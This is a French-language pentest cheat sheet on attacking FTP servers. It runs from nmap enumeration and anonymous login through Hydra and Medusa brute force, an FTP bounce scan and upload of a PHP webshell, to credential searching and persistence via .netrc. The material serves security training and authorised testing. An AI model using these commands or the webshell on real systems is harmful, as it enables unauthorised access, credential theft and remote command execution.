 # FTP (21/TCP)

Le File Transfer Protocol (FTP) permet le transfert de fichiers entre un client et un serveur.

## 🔍 Énumération

### Scan de base
```bash
# Scan Nmap détaillé
sudo nmap -sC -sV -p 21 $IP

# Vérification des vulnérabilités connues
nmap --script=ftp-* -p 21 $IP
```

### Connexion anonyme
```bash
# Tentative de connexion anonyme
ftp $IP
# Username: anonymous
# Password: [vide] ou email@example.com

# Alternative avec netexec
nxc ftp $IP -u '' -p '' --ls
```

### Exploration du contenu
```bash
# Une fois connecté en FTP
ls -la        # Lister les fichiers (incluant cachés)
pwd           # Afficher le répertoire courant
cd [dossier]  # Changer de répertoire
```

## 🔨 Exploitation

### Authentification anonyme
```bash
# Télécharger tous les fichiers disponibles
wget -m --no-passive ftp://anonymous:anonymous@$IP/

# Télécharger un fichier spécifique
netexec ftp $IP -u '' -p '' --get [FILE]

# Télécharger un dossier complet
lftp -u anonymous,anonymous ftp://$IP
mirror -c --verbose [dossier]
```

### Attaque par force brute
```bash
# Avec Hydra
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f $IP ftp

# Avec Medusa
medusa -u [user] -P /usr/share/wordlists/rockyou.txt -h $IP -M ftp
```

### FTP Bounce Attack
Exploite la commande PORT pour scanner des hôtes internes inaccessibles directement.

```bash
# Scan bounce avec Nmap
nmap -Pn -v -n -p80 -b anonymous:password@$IP [TARGET_IP]
```

### Upload de webshell ou reverse shell
```bash
# Création d'un webshell PHP simple
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload via FTP
ftp $IP
put shell.php

# Si PHP est installé sur le serveur, visitez http://$IP/shell.php?cmd=id
```

## 🔐 Post-exploitation

### Recherche d'informations sensibles
```bash
# Recherche de fichiers de configuration
grep -r "password\|user\|username\|pass" .

# Recherche de clés SSH, fichiers de configuration
find . -name "*.key" -o -name "*.conf" -o -name "*.cfg"
```

### Établir une persistance
```bash
# Créer un .netrc pour une connexion automatique
echo "machine $IP login [username] password [password]" >> ~/.netrc
chmod 600 ~/.netrc
```

## ⚠️ Erreurs courantes & astuces
- FTP peut fonctionner en mode actif ou passif - essayez les deux en cas de problème
- Certains serveurs limitent le nombre de connexions - attendez entre les tentatives
- Vérifiez les permissions des répertoires après connexion
- Les messages d'erreur peuvent révéler des informations sur la configuration